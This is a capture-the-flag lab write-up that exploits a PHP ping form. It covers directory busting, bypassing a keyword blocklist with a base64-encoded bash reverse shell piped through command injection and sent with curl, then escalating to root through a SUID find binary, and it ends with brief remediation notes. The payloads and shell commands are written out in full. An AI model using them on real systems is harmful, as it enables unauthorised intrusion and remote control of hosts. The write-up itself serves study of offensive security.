





# Scope

> This lab challenges you to combine web enumeration, steganography, and creative command injection techniques to exploit a vulnerable application. Hidden credentials embedded in images provide access to a command injection vulnerability, which is leveraged to gain an initial reverse shell. Privilege escalation is achieved through hidden files containing credentials and SUID misconfigurations, highlighting skills in steganography, file discovery, and sudo abuse.

# Enumeration

## Ports

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 61
```

## Services

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

### HTTP (tcp 80)

- This is the only open port that can be found.
- Going to the site that this leads to a form that is supposed to send out ping requests. But it doesn't seem to work.



#### Directory busting

- This shows a few more pages that were hidden before

```bash
[Feb 27, 2026 - 15:01:05 (+08)] exegol-offsec recon # feroxbuster -w `fzf-wordlists` -u http://$TARGET/ -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.221.15/
 🚀  Threads               │ 50
 📖  Wordlist              │ /opt/lists/seclists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      279c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        7l       17w      201c http://192.168.221.15/index.php
200      GET        7l       17w      201c http://192.168.221.15/
200      GET     3115l    25512w  2356170c http://192.168.221.15/ctf-01.jpg
200      GET       54l      197w    19052c http://192.168.221.15/haclabs.jpeg
200      GET     2498l    17552w  1801607c http://192.168.221.15/Short.png
200      GET    13135l    77259w  7157187c http://192.168.221.15/new.jpg
200      GET       60l       30w      417c http://192.168.221.15/admin
200      GET        8l       16w      152c http://192.168.221.15/superadmin.php
```

- `admin.php` is just a bunch of images.
  - The page source has a comment at the bottom

  ```html
  <!--passphrase:harder-->
  ```

  - Nothing else can be gleaned from this site (Should have downloaded the images and checked metadata).


- `superadmin.php` is another form that actually works this time. When an ip address is given, it shows the results of a ping request.



# Exploit

## Superadmin page mechanism

- The `superadmin.php` page works by having the user input an ip address, and it runs the `ping` command on the backend, returning the response onto the webpage.
- This could mean that the value the user enters is supplied directly to the ping command



- The request looks like this:



## Command injection

- Command Injection seems to be something to try here based on the understanding of the behaviour of this application.
- Chaining commands can be something to try here, based on [this](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#chaining-commands).



- Going through the list of characters using in command chains leads to the pipe `|` character being the only one that allows for chaining out a response from the underlying linux machine.
- This establishes the command injection vulnerability here.

- In order to find out the filtering policy that doesn't allow for full arbitrary uploads, check the `superadmin.php` page's code.
- This can't be seen through the browser windown, but it can be gotten when using burpsuite.

### superadmin.php

```php
HTTP/1.1 200 OK
Date: Fri, 27 Feb 2026 14:35:23 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 686
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<form method="post" action="">
<input type="text" placeholder="Enter an IP to ping" name="pinger">
<br>
<input type="submit" name="submitt">
</form>

<pre><form method="post" action="">
<input type="text" placeholder="Enter an IP to ping" name="pinger">
<br>
<input type="submit" name="submitt">
</form>

<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>


</pre>
```

- Here, the code for `superadmin.php` shows that there are defined symbols, so the filter can stop attempts to use these. `$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
`
- There is also the proof that the input is injected into shell code. `$outer=shell_exec("ping -c 3 $pinged");`
- Based on the code, if there are any of the blacklisted symbols, the payload won't work.

## Exploit

- The exploit has to work by:
  - Not containing ANY of the blacklisted strings
  - Being in a format that can sneak by - Base64 would be perfect for this.
  - Something that can be piped and "unpacked" so it can execute through the injection.

- The basic bash reverse shell should be fine for this: `sh -i >& /dev/tcp/192.168.45.216/9001 0>&1`
- Convert that to base64, and that becomes: `c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4yMTYvOTAwMSAwPiYx`
- Since pipes work, the parts about decoding the payload and piping the result to bash don't need to be decoded.

```bash
[Feb 28, 2026 - 00:46:42 (+08)] exegol-offsec recon # curl -X POST http://192.168.221.15/superadmin.php --data "pinger=127.0.0.1 | echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLj
E2OC40NS4yMTYvOTAwMSAwPiYx | base64 -d | bash&submitt=Submit+Query"
```

- This is going to result in a reverse shell from the target.

```bash
[Feb 27, 2026 - 23:27:29 (+08)] exegol-offsec noname # penelope -p 9001
[+] Listening for reverse shells on 0.0.0.0:9001 →  127.0.0.1 • 192.168.215.2 • 192.168.45.216
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from haclabs 192.168.221.15 Linux-x86_64 👤 www-data(33) • Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3
[+] Interacting with session [1] • Shell Type PTY • Menu key F12 ⇐
[+] Logging to /root/.penelope/sessions/haclabs~192.168.221.15-Linux-x86_64/2026_02_28-00_47_46-694.log
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@haclabs:/var/www/html$ whoami
www-data
www-data@haclabs:/var/www/html$
```

# Internal Enumeration

## Flag 1

```bash
www-data@haclabs:/home/haclabs$ cat flag2.txt
I am flag2

           ---------------               ----------------


                               --------
www-data@haclabs:/home/haclabs$ cd Desktop/
www-data@haclabs:/home/haclabs/Desktop$ ls
www-data@haclabs:/home/haclabs/Desktop$ cd ../../
www-data@haclabs:/home$ ls
haclabs  yash
www-data@haclabs:/home$ cd yash/
www-data@haclabs:/home/yash$ ls
flag1.txt  local.txt
www-data@haclabs:/home/yash$ cat flag1.txt
Due to some security issues,I have saved haclabs password in a hidden file.

www-data@haclabs:/home/yash$ cat local.txt
*****************19f6b52974e105b
www-data@haclabs:/home/yash$
```

## The actual enumeration

- `sudo -l` doesn't work because a valid password is required for the user `www-data`
- Searching for SUID/SGID bits are present here.

```bash
www-data@haclabs:/$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/arping
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/newgrp
```

# Privilege Escalation

- Looking into SUID exploits on [GTFO Bins](https://gtfobins.org/gtfobins/find/#shell) for each of the binaries exposes an opportunity for privilege escalation via the `/usr/bin/find` binary.
- This leads to root access.

```bash
www-data@haclabs:/$ find . -exec /bin/sh -p \; -quit
# whoami
root
```

```bash
# cd /root
# ls
flag3.txt  proof.txt
# cat flag3.txt
Your flag is in another file...
# cat proof.txt
****************6fff216dfceaeafc
```

# Remediation

## Command Injection

- [OWASP](https://owasp.org/www-community/attacks/Command_Injection)
- [Portswigger](https://portswigger.net/web-security/os-command-injection)

- This is basically an attack where the goal is to execute arbitrary commands on the host operating system via a vulnerable application/input.
- In this case, the vulnerable part is the input on the webpage, and the php code behind it that runs the ping command on the system.
- The OWASP top 10:2025 classifies this as [number 5](https://owasp.org/Top10/2025/A05_2025-Injection/)

> The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In almost all cases, there are different ways to implement the required functionality using safer platform APIs.

# Lessons Learnt

- Even the images seem to have hidden information so don't ignore them in future.
  - Despite finding the hidden link (superadmin.php) via Directory Bruteforcing.
- If its possible to get to code that allows for understanding the mechanism of how the application works, analyze it more. Like in this case where analyzing it helped with crafting a reverse shell payload that worked despite the filter.
  - Don't always look to plug in shells from revshells.
